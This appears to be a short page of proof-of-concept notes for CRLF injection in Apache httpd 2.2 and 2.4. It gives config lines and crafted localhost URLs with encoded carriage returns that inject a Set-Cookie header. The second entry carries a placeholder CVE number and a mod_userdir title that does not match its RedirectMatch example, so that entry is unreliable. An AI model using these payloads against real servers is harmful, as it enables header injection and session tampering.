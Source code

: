 ### Apache httpd mod_userdir CRLF Injection
#### CVE-2016-4975
Versions Affected:  
2.2.0 to 2.2.31 
2.4.1 to 2.4.23

```
httpd.conf:
UserDir "http://www.example.com/*"

HTTP Request:
http://localhost/~user/%0D%0ASet-Cookie%3A%20crlf=injection%3B
```


### Apache httpd mod_userdir CRLF Injection
#### CVE-XXXX-XXXX
Versions Affected:  
2.2.0 to 2.2.31 
2.4.1 to 2.4.23

```
.htaccess or httpd.conf:
RedirectMatch "/aaa/(.*)" "/bbb/$1"

http://localhost/aaa/%3F%0DSet-Cookie:crlf=injection
http://localhost/aaa/%23%0DSet-Cookie:crlf=injection
```